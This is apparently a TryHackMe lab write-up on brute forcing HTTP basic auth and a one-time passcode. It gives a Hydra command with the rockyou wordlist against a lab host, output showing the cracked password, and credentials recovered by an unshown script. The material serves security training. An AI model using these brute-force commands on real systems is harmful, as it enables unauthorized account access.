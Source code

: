 ```yaml
---
title: Enumeration & Brute Force
description: 'Brute forcing basic auth with Hydra and a OTP with a custom python script'
pubDate: 2024-08-03
category: 'tryhackme'
tags: ['One Time Pass']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/645b19f5d5848d004ab9c9e2-1719928599415'
---
```


## BASIC AUTH
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt enum.thm http-head /labs/basic_auth/
...[snip]...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-head://enum.thm:80/labs/basic_auth/
[80][http-head] host: enum.thm   login: admin   password: yellow
1 of 1 target successfully completed, 1 valid password found
```

## OTP

Using a python script (`script.py`) we can enumerate the emails and get the OTP:

```
user: admin@admin.com
token: 150
password: m09CjZgF
```
